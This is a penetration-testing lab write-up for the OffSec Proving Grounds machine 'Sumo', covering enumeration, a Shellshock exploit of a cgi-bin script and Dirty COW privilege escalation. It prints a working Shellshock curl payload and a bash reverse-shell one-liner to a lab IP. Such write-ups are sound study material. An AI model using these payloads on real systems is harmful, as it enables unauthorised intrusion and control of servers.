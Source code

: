```yaml
---
title: OffSec PG - Sumo
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.101.87`

### Network Scan

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.101.87`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                    |
| -------- | ----------- | ------------------------------------------------------------- |
| 22       | SSH         | OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0) |
| 80       | HTTP        | Apache httpd 2.2.22 ((Ubuntu))                                |

### Web Scan

GoBuster scan &rarr; `gobuster dir -u http://192.168.101.87 -f -w /home/tanq/installations/SecLists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x html,php,txt`

Directories/files listed &rarr;

- index.html
- cgi-bin/ (403)
- icons/ (403)
- doc/ (403)

---

## Exploitation

The `cgi-bin/` directory looked suspicious. Generally in the past, cgi-bins used to be executed by bash directly and were vulnerable to shellshock. There is however a 403 on the directory. Running it through gobuster again tells the existence of `test` under that directory. Navigating to it shows that it is the default cgi-bin for the server.

The test for vulnerability for shellshock can be done as follows &rarr; `curl -H "My-Header: () { :; }; echo; /usr/bin/id" http://192.168.101.87/cgi-bin/test`. If this returns a valid result, then the server is vulnerable.

It was found that the server was in fact vulnerable. Therefore, used this as an RCE to get a reverse shell using the following payload &rarr; `/bin/bash -i >& /dev/tcp/192.168.49.101/3002 0>&1`.

This gave a shell as the user `www-data` and subsequently the user flag.

---

## Privilege Escalation

Looked at the kernel version which is 3.2.0-23-generic. This is very outdated. The OS version is Ubuntu 12.04. The machine is also 64 bit. Looking at results of searchsploit, dirty cow is an exploit that would fit the scenario.

There are 4 kinds of dirty cow, the one used for this machine is `'PTRACE_POKEDATA' Race Condition Privilege Escalation (/etc/passwd method)`. Compiling the exploit and sending the binary via wget allows setting a new user with root permissions.

Then, logging in with the newly created user gives the root shell and subseqeuntly the root flag.

---
